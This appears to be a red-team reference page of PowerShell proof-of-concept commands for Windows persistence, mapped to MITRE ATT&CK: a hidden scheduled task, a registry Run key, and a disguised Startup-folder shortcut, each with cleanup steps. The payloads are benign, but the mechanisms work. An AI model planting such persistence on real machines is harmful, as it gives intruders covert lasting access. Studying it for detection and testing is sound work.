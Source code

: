 # TA0003 - Persistence

*- maintaining access.*

## T1053.005 - Scheduled Task/Job: Scheduled Task

| Privileges | Execution Trigger                    |
|:-----------|:-------------------------------------|
| User       | Scheduled time if user is logged in. |

- Execute `$cmd` every minute.
    - Attack:
        ```ps1
        $cmd = "PowerShell -WindowStyle Hidden -Command taskschd.msc"
        SCHTASKS /Create /F /SC MINUTE /MO 1 /TN poc /TR $cmd
        ```
    - Cleanup:
        ```ps1
        SCHTASKS /Delete /F /TN poc
        ```

## T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder

| Privileges | Execution Trigger |
|:-----------|:------------------|
| User       | User login.       |

- Execute `$cmd` (via registry run key).
    - Attack:
        ```ps1
        $cmd = "PowerShell -NoExit -Command REG QUERY HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
        REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc /D $cmd
        ```
    - Cleanup:
        ```ps1
        REG DELETE HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc
        ```

- Execute `$cmd` (via startup folder).
    - Attack:
        ```ps1
        $cmd = "Explorer $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
        $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.IconLocation = "$env:SystemDrive\Windows\System32\wsl.exe" ; $lnk.Save()
        ```
    - Cleanup:
        ```ps1
        Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
        ```

## Resources

- [Mitre ATT&CK | Persistence](https://attack.mitre.org/tactics/TA0003/)
- [Red Team Notes | Persistence](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/)
